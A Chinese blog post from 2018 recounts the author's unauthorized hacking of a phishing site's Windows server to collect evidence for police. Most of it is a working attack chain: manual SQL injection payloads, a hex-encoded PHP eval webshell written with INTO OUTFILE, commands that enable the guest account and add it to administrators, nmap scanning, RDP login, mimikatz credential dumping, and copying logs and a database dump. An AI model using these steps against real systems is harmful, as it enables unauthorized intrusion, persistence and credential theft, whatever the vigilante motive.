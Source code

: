 ```yaml
---
layout: post
title:  "[Web安全]记一次钓鱼网站调查取证"
date:   2018-07-14 9:51
categories: jekyll
permalink: /archivers/Traceability-go-fishing-website-20180714
---
```


## 0x00 前言

  前段时间加了个设计群,某人说朋友被骗钱在群里吐了两天苦水,原先真不打算管这事,没太多时间管闲事.无奈昨晚下了场大雨,没办法出门跑步,一时技痒就顺道把钓鱼站黑了顺道把网站日志跟服务器登陆日志打包出来.所以有了这篇文章记录一下过程.

## 0x01 溯源准备

  ![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714151131.jpg)

### 1.1 开始

看到链接下看到后缀php?uid=,初步判断应该是php+mysql的网站..复制链接到电脑浏览器打开后下意识职业病uid=87'
  ![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714101207.png)
  

### 1.2 爆出路径,可能存在sql注入

  ![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714101745.png)
  
得到路径D:\xxxxx\zz\index.php，加上header头数据初步判断得出是Windows+Apache+Php+Mysql的网站,能爆路径很概率会有Sql注入,我们先记录下来路径是D:\xxxxx\
>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 xor 1=1 //返回正常

>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 xor 1=2 //返回错误

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714103406.png)


### 1.3 有sql注入

本来想掏出SQLMAP一把梭,结果sqlmap居然没注入出来..可能是我的操作有问题..只能手工注入了.

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/8f83af916f494821bc2980ac6d539759.jpeg)

### 1.4 猜字段数目

当尝试注入语句字段个数为26返回正确,27返回错误,说明字段数等于26.

>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 order by 26 //返回正常

>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 order by 27 //返回错误

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714104806.png)

### 1.5 联合查询语句，暴出可显示字段

>http://www.xxxxx.cn/zz/index.php?zt=1&uid=87 xor 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,
>14,15,16,17,18,19,20,21,22,23,24,25,26

### 1.6 暴出数据库用户、版本、库名和路径信息.

>system_user() 系统用户名
>
>user() 用户名
>
>current_user当前用户名
>
>session_user()连接数据库的用户名
>
>database() 数据库名
>
>version() MYSQL 数据库版本
>
>load_file() MYSQL 读取本地文件的函数
>
>@@datadir 读取数据库路径
>
>@@basedir MYSQL 安装路径
>
>@@version_compile_os 操作系统 


>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 xor 1=2 union select 1,2,3,4,user(),database(),7,8,version(),10,11,12,@@basedir,14,15,16,17,18,19,20,21,22,23,24,25,26

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714122723.png)

运气不错是root权限,不用大费周章跑去后台传马,直接写,记录信息root@localhost^^5.5.40^^xxxx^^D:/phpStudy/MySQL/

### 1.7 写入webshell

结合我们刚才爆出的网站路径D:\xxxxx\zz\ 
php一句话<?php eval($_POST['test'])?>
去https://www.107000.com/T-Hex/ 转成hex16进制加上0x
得出写入webhsell语句.

>http://www.xxxxx.cn/zz/index.php?zt=1&uid=87 xor 1=2 union select 1,2,3,4,0x3C3F706870206576616C28245F504F53545B2774657374275D293F3E,6,7,8,9,10,11,12,13,
>14,15,16,17,18,19,20,21,22,23,24,25,26 into outfile 'D:/xxxxx/zz/weiho.php'


### 1.8 提升权限

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714150838.png)
连接上去看一下权限,Administrator..典型phpstudy安装完啥也不管直接把站丢上去的情况..还想着要不Mysql UDF或者MOF提权.这里接下来有两种做法,直接启用guest,添加密码以及管理员权限.第二种下个wce读取明文,以administrator的权限登陆.Ps:wce需要管理员或管理员以上的权限才可以,一般情况下配合本地提权exploit,但这里是Administrator.可以忽略掉要提权的操作.不过我们这里选前者,直接启用guest账号.先查看下对方在不在VPS里.状态:断开.

>query users //查看登陆
用户名                会话名             ID  状态    空闲时间   登录时间
>
>administrator                             2  断开      1+21:09  2018/7/11 23:15
>
>net user guest /active:yes &net localgroup administrators guest /add & net user guest weiho4444@
>
>命令成功完成。
>

### 1.9 登陆远程桌面

>nmap -sS -A -v -p- --open xxxx.cn

我进来这服务器前用nmap大概扫了一下.有三个端口开放80,3306,3389.本来想爆破3306.telnet过去没到三秒结束会话,后面登陆才发现设置了IP.3389一般是远程桌面的端口.直接本地连过去就行了.
运行远程桌面
>mstsc

### 1.10 读取明文密码

[mimikatz](https://github.com/gentilkiwi/mimikatz/releases/tag/2.1.1-20180616)

先下载回来,由于这VPS是x86系统所以运行x86的mimikatz

Ps:一定要是管理员权限才能运行.
>privilege::debug
>
>sekurlsa::logonpasswords

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714135136.png)

得到管理员administrator密码540cxxxxxx.把自己账号禁了,以管理员进去.


## 0x02 开始溯源

### 2.1 拷贝系统日志Security和System

>C:\Windows\System32\winevt\Logs

### 2.2 Apache日志 error.log

>"C:\Program Files\WinRAR\Rar.exe" a -k -r -s -m1 D:\xxxxxx\error.rar D:\phpStudy\Apache\logs

### 2.3 打包网站源码

>"C:\Program Files\WinRAR\Rar.exe" a -k -r -s -m1 D:\xxxxxx\1.rar D:\xxxxx\

### 2.4 导出mysql数据库

mysqldump -uroot -proot123456 dbname > D:\xxxxx\dbname.sql


![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714141302.png)

## 0x03 后话

  把数据打包后,让那哥们交民警结果人家民警同志不信..说我数据可能伪造.我说让民警直接联系我吧,然后blabla不了了之,就立了案.OMG.大写服气.后面让玄道转交给江苏的网警同志.今天(7.14)记录一下昨晚(7.13)的大概过程.中间省略了一些不太必要的过程.后续可以做的事,分析apache以及系统日志.做个后门记录远程桌面访问的IP,以及iframe之类的引用插入后台相关地址记录.查看web服务器日志得到对应IP.

## 0x04 参考资料与工具

>
>[一个PHP+Mysql手工注入例子](https://blog.csdn.net/praifire/article/details/51926863)
>
>[Mysql注入方式](https://www.cnblogs.com/0x03/p/7451292.html)
>
>[Hex编码解码](https://www.107000.com/T-Hex/)
>
>[使用mimikatz_trunk获取计算机密码](https://jingyan.baidu.com/album/e52e36154c3ff140c70c515f.html)
>
>[caidao](https://github.com/pythonsky/caidao-20160620-www.maicaidao.com)
>
>[mimikatz](https://github.com/gentilkiwi/mimikatz)
>